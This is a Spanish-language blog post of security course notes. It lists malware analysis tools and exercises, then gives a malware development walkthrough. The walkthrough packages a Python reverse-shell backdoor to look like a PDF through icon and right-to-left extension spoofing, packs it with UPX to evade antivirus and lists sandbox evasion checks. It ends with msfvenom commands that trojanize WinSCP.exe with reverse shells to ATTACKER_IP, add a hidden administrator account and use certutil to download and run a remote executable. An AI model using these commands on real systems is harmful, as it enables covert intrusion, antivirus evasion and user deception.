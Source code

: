 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Escaneo de VUlnerabilidades
Podemos entrar al sitio CWE https://cwe.mitre.org/find/index.html para encontrar el tipo de vulnerabilidad asociada a ejemplo "smb".  La otra parte interesante dlel sitio es CWE List, la cual nos indicará la versión de cwe y en el listado un top 25 de software inseguros.

## [](#header-2)Malware Analysis
### [](#header-3)Local & Online Malware Scanning
- Hybrid Analysis (https://www.hybrid-analysis.com)
- Cukoo Sandbox (https://cuckoosandbox.org)
- Jotti (https://virusscan.jotti.org)
- Valkyre Sandbox (https://valkyrie.comodo.com)
- Online Scanner (https://www.fortiguard.com)

### [](#header-3)String Search
Herramientas:
- FLOSS (https://fireeye.com)
- Strings (https://docs.microsoft.com)
- Free EXE DLL Resource Extract (https://www.resourceextract.com)
- FileSeek (https://fileseek.ca)
- Hex Workshop (http://hexworkshop.com)
- BinText

### [](#header-3)Packing/Obfuscation Methods
- DIE (Detect It Easy)
- Macro_Pack (github.com)
- UPX (upx.github.io)
- ASPack (www.aspack.com)
- VMprotect (https://vmpsoft.com)
- ps2-packer (https://github.com)

### [](#header-3)Stenography Tools
-Snow - En la práctica, había un .txt con informacion oculta, para extraer la información usamos el comando
```s
SNOW.EXE -C Confidential.txt
```
Ejercicio de análisis de archivo .pcap con wireshark, un empleado usó la herramienta cover_TCP. Esta herramienta transforma los headers de los paquetes TCP, visitamos el sitio de github del creador y este nos da el ejemplo de como interceptar el mensaje(Filtrando o identificando los paquetes en negro o rojo) Al filtrar por la IP de destino o bien los paquetes rojos y examinarlos encontramos que en la parte de Transmission Control Protocol despues de cada parentesis encontramos cada caracter del mensaje.

### [](#header-3)Malware Analysis
Aqui he resuelto 2 ejercicios rápidamente, en el primero usé IDA para analizar un ejecutable, la misión era encontrar la llamada al KERNEL32.dll, bastó con buscarlo directamente y poner la direccion de memoria. El segundo ejercicio era analizar la arquitectura de un archivo ELF, en el cual tuve que usar GHYDRA, este software al utilizarlo me hizo un reporte detallado del programa y de aqui saque la arquitectura del programa.

Para analizar un servicio, untilicé la herramienta srvman.exe, el ejercicio trataba de poner el tipo de servicio que estaba corriendo, el cual era un driver.

### [](#header-3)Creacion de payloads
Hemos estado usando msfvenom para crear payloads, pero en esta ocasion tenemos un comando para buscar los tipos de payloads que se pueden usar para por ejemplo jsp
```s
msfvenom -l payloads | grep jsp
```

### [](#header-3)Decryption

Utilidad gpp-decrypt, para contrasenas AES "Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml" en windows.
```s
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

### [](#header-3)Malware developement
Para recuperar el path de python
```s
>>> import os, sys
>>> os.path.dirname(sys.executable)
```

La parte mas importante y que seguramente usaremos es empaquetar el malware hecho en python, para eso se requiere lo siguiente
1. Instalar el paquete de pip
```s
python -m pip install pyinstaller
```
2. Ejecutar el comando
```s
#Para que no se abra un prompt usamos la opcion --noconsole
pyinstaller.exe malware.py --onefile --noconsole

#Para empaquetar mas, en el path del archivo origen, podemos poner despues del punto y coma donde queremos que se guarde el archivo, comunmente la ruta TMP
pyinstaller.exe malware.py --add-data "[Path/archivo;C:\Users\%USERNAME%\AppData\Local\Temp]" --onefile --noconsole

#Para empaquetarlo con un icono y que parezca PDF, podemos ir al sitio de iconos www.iconfinder.com y escoger alguno como PDF, 
#los iconos deben estar en extension .ico, por lo que debemos convertirlo y tenemos que buscar png to ico y escogeremos el que mejor funcione.
pyinstaller.exe malware.py --add-data "[Path/archivo;C:\Users\%USERNAME%\AppData\Local\Temp]" --onefile --noconsole --icon pdf.ico reverse.exe
```
3. Extraer el archivo del directorio dist/ 
4. Bypass de antivirus: Para este paso, usaremos la herramienta UPX, podemos usar la version de linux y el comando quedaria de la forma:
```s
upx reverse_backdoor.exe -o compressed_backdoor.exe
```
5. Spoofing de extension de archivo: Podemos usar caracteres especiales, abrimos el link https://unicode-explorer.com/c/202E para en este caso usar el character right-to-left,Ahora solo tendremos que cambiar el nombre del archivo
```s
reverse.exe
reverse-‮fdp.exe
```

De acuerdo con tryhackme, existen diferentes formas de pasar desapercibido, en esta ocacion traigo un programa en python que nos hara el trabajo de infiltracion.
Evasion de Sandbox

- Las tacticas a usar son:
  - Agregar un timer, normalmente en un sandbox, se espera que el programa se ejecute inmediatamente para revelar sus acciones.
  - Verificar en el systeminfo si el equipo tiene mas de un core de procesador y mas de 4 GB en RAM, esto para hacer mas eficiente el rango de objetivos.
  - Verificar la IP, podemos consultar la ubicacion de donde se ejecuta con ayuda de los sitios 
    - https://ifconfig.me/all.json para ver la informacion de la 
    - https://rdap.apnic.net/ip para extraer mas data, como el pais, en este caso hemos escogido MX y US

Ofuscacion:
Lo que aplicaremos, sera con ayuda de chatgpt y algunos principios de ofuscacion
- Code-Element Layer
  - Obfuscating Layout
    - Junk Codes
    - Separation of Related Codes
    - Stripping Redundant Symbols
    - Meaningless Identifiers
  - Obfuscating Controls
    - Implicit Controls
    - Dispatcher-based Controls
    - Bogus Control Flows
  - Obfuscating Data
    - Array Transformation
    - Data Encoding
    - Data Procedurization
    - Data Splitting/Merging 
  - Obfuscating Methods
    - Method Proxy
    - Method Scattering/Aggregation
    - Method Clonde
    - Method Inline/Outline
  - Obfuscating Classes
    - Class Hierarchy Flattening
    - Class Splitting/Coalescing
    - Dropping Modifiers
- Software-Component Layer
- Inter Component Layer
  - Obfuscating Library Calls
  - Obfuscating Resources    
- Application Layer
  - Obfuscating DRM Systems
  - Obfuscating Neural Networks

Funcionalidades extra:
- Descargar y ejecutar un programa desde github, que aparentemente eso es una actividad normal
- Automatizar el exito del reverseshell. En el listener ejecutar comandos de reconocimiento en cuanto se conecte(Opcional)

Con msfvenom
```s
#Empaquetando un comando
msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp
#Binding WinSCP
msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
#Con un encoder, "msfvenom --list encoders | grep excelent para listarlos", -i para especificar las iteraciones de encriptado
msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=192.168.1.17 lport=1234 -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -i 5 -f exe -o WinSCP-evil.exe 
#Encriptar con msfvenom "msfvenom --list encrypt"
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "R3&1(k" -o xored-revshell.exe
#raw shellcode, para binarios de windows 
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
```

msfvenom -a x64 -p windows/x64/exec -x WinSCP.exe CMD='certutil.exe -urlcache -split -f https://github.com/Rebick/dangerous/raw/refs/heads/main/pdf2.exe C:\Windows\Temp\pdf.exe && C:\Windows\Temp\malicious.pdf' -e x86/shikata_ga_nai --encrypt xor --encrypt-key "R3&1(k" -b '\x00\x0a\x0d -i 5' -f exe -o tacticas_jiraya.exe